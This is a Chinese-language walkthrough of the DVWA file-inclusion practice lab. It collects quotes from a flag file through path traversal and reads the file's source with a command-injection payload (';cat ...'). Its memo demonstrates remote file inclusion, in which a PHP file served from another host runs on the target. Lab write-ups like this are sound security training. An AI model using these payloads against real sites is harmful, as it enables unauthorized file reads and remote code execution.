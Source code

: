 # File Inclusion

## Objective

Read all five famous quotes from `'../hackable/flags/fi.php'` using only the file inclusion.

### 測試 URL parameters

看到連續的數字就會很自然的想加上去

```
http://localhost:8086/vulnerabilities/fi/?page=file4.php
```
出現 File 4 (Hidden) 隱藏訊息，但這應該只是彩蛋

從提示中知道有個 `../hackable/flags/fi.php'` 檔案，題目要求我們用 include 的方式讀取它

可以看出這個檔案的位置在:

```
http://localhost:8086/hackable/flags/fi.php
```

根據題目要求，從 URL 參數操控載入檔案 
```
localhost:8086/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```
頁面會出部分答案，已經成功一半了
```
1.) Bond. James Bond 2.) My name is Sherlock Holmes. It is my business to know what other people don't know.

--LINE HIDDEN ;)--

4.) The pool on the roof must have a leak.
```
第 5 個答案只要觀察 page source 即可發現
```
5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons.
```

第 3 個需要花一點心思去思考，搜尋一陣子後，發現從這個頁面基本上無法得知更多訊息，因此可能要從其他地方下手，或者作弊一下

我是從 command injection 那關的 input 去偷看 fi.php 的 source code XD

```
;cat /var/www/html/hackable/flags/fi.php
```

可以看到 `/var/www/html/hackable/flags/fi.php` 的 source code，第 3 個答案就在裡面
```
1.) Bond. James Bond


\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n

\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>
```

## Done
```
1.) Bond. James Bond

2.) My name is Sherlock Holmes. It is my business to know what other people don't know.

3.) Romeo, Romeo! Wherefore art thou Romeo?

4.) The pool on the roof must have a leak.

5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons.
```

## memo

### 測試載入遠端檔案

如果可以隨意餵給它任意檔案就更棒了

準備一個要被遠端載入的檔案

```bash
echo '<? echo "yo" ?>' > yo.php
```

```
GET http://localhost:8086/vulnerabilities/fi/?page=http://192.168.0.196:8080/yo.php
```
可以看到頁面左上角顯示了 yo，代表有成功執行檔案
